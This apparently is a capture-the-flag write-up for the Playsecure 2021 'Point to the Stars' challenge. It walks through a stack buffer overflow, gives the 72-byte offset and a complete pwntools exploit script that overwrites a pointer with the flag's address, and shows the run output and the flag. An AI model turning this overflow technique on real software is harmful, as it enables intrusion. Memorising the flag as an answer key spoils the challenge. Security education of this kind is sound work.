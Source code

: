 ```yaml
---
layout: post
title: Playsecure to The Stars
---
```


Can you point to the stars? Make the pointer point to the flag!

Connect to the challenge at exploitation.ps.ctf.ae:5454

<!-- more -->

## Recon

### Connecting to challenge server and interacting.

![pts00](/assets/playsecure2021/pts00.png)

### Overwriting the star pointer

Sending a string of length 100 will overwrite the star pointer.

![pts01](/assets/playsecure2021/pts01.png)

### Controlling the star pointer

We enter a unique pattern of 100 length as the wish. Find the offset at which the star pointer is getting overwritten.

![pts02](/assets/playsecure2021/pts02.png)

### Approach to Exploitation

WE know the following:
- The index at which star pointer is getting overwritten
- The address at which flag is stored

WE have to do the following:
- After connecting to challenge, read the flag address
- Send payload as [JUNK 72] + [FLAG ADDRESS PACKED LITTLE ENDIAN]
- Read responses from challenge server

### Exploitaion Proof of Concept

```python
# Author: Rizal Muhammed ~ rizaru ~ UB3RSiCK
# Date: 27 March 2021
# Desc: Playsecure ctf Point to the stars exploitation solution

from pwn import *
import struct

def p(a):
	return struct.pack("I",a)

conn = remote('exploitation.ps.ctf.ae',5454)
r = conn.recvuntil("Enter your wish: ")

temp = str(r).split('\\n')

print ('\n'.join(temp))


for item in temp:
        if "The flag is stored at" in item:
                flag = item[len('The flag is stored at '):]
        if "The star pointer is pointing at" in item: 
                ptr = item[len('The star pointer is pointing at '):]


payload = b"A"*72

f = str(flag)[2:]
print (f)

pp = p64(int(f, 16))

print (repr(pp))

payload += pp

print (payload, type(payload))

conn.sendline(payload)

print (conn.recvline())
print (conn.recvline())
print (conn.recvline())
```

Running the PoC.

![pts03](/assets/playsecure2021/pts03.png)

```bash
kali@kali:~/Desktop/CTF/playsecure.ctf.ae-mar262021/exploitation/point2thestars$ python3 pt2str.py 
[+] Opening connection to exploitation.ps.ctf.ae on port 5454: Done
b'Can you reach for the stars?
----------------------
The flag is stored at 0x7fffcf6de170
The star pointer is pointing at 0x7fffcf6de1c0
Enter your wish: '
7fffcf6de170
b'p\xe1m\xcf\xff\x7f\x00\x00'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp\xe1m\xcf\xff\x7f\x00\x00' <class 'bytes'>
b'Granting your wish...\n'
b'The star pointer is now pointing at 0x7fffcf6de170\n'
b'Following the pointer you find: CTFAE{ReachForTheStarsAndBeyond}\n'
```

*FLAG: CTFAE{ReachForTheStarsAndBeyond}*
